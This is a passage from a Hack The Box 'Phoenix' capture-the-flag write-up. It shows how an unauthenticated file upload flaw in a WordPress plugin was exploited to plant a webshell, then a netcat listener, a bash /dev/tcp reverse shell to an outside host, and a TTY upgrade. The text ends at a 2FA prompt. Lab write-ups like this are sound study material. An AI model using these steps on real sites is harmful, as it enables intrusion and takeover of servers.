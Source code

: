 It was dumping a lot of data and very, very, slow! But when I saw the plugin `download-from-files/download-from-files.php` being used I immediately searched for vulnerabilities on internet.

Found an exploit for Download From Files v1.48 (Arbitrary File Upload). [Exploit-DB link](https://www.exploit-db.com/exploits/50287).
Reading the exploit, it abuses of an arbitrary file upload vulnerability where the plugin allow an unauthenticated user to upload php4 and phtml files.
I will make a copy of [PownyShell](https://github.com/flozz/p0wny-shell) , change the file extension to `.phtml` and upload to the web server using the exploit.
```bash
~/htb/phoenix
❯ cp /opt/p0wny-shell/shell.php .

~/htb/phoenix
❯ mv shell.php shell.phtml   

~/htb/phoenix
❯ python3 file-upload.py https://phoenix.htb ./shell.phtml 
Download From Files <= 1.48 - Arbitrary File Upload
Author -> spacehen (www.github.com/spacehen)
Uploading Shell...
Shell Uploaded!
https://phoenix.htb/wp-admin/shell.phtml
```

Browsing to https://phoenix.htb/wp-admin/shell.phtml we get our semi-interactive webshell!
![[phoenix/images/image4.png]]

## Shell as wp_user
First of all, lets get a real tty. Start a netcat listener on our kali machine:
```bash
$ nc -lnvp 4444
```

Run a bash reverse shell from the webshell:
```
p0wny@shell:…/wordpress/wp-admin# bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'
```

### Upgrade tty
```bash
wp_user@phoenix:~/wordpress/wp-admin$ python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z

❯ stty raw -echo;fg                    
[1]  + continued  nc -lnvp 4444

wp_user@phoenix:~/wordpress/wp-admin$ export TERM=xterm
```

### Escape OTP
Since we have some credentials extracted from the SQL injection I was trying to change user, however, the system would ask for a 2FA code:
```bash
wp_user@phoenix:~/wordpress/wp-admin$ su phoenix
Verification code:
```
